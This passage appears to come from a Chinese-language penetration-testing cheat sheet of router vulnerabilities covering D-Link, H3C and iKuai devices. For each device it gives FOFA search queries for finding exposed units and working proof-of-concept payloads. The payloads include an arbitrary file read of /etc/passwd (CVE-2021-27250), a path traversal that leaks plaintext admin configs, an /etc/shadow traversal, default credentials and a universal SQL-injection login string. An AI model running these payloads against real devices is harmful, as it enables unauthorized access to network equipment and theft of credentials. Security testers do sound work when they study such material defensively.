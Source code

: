 F12 查看到账号密码，解密md5 后登陆系统。

### 0x05 路由器

#### D-Link DAP-2020

FOFA：

```
body="DAP-1360" && body="6.05"
```

##### webproc 任意文件读取 CVE-2021-27250 ✅

poc：

```
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

#### H3C 企业路由器（ER、ERG2、GR系列）

##### 任意用户登录漏洞 ✅

攻击者可通过访问 /userLogin.asp/../actionpolicy_status/../xxxx.cfg 接口，xxxx 为设备型号（比如设备型号为 ER5200G2，即访问 /userLogin.asp/../actionpolicy_status/../ER5200G2.cfg），绕过 COOKIE 验证，进行目录穿越，获取设备的明文配置文件。

配置中有明文的 Web 管理员账号 admin 密码，登录后台可通过开启 telnet 获取命令执行权限。

#### iKuai 路由器

FOFA：

```
title="登录爱快流控路由"
```

##### 后台任意文件读取✅

默认密码：admin/admin

poc：

```
GET /Action/download?filename=../../../../../../etc/shadow HTTP/1.1
Host：
....
```

##### 流控路由 SQL注入漏洞✅

万能密码登录：

```
user: "or""=""or""="
pass: 空
```
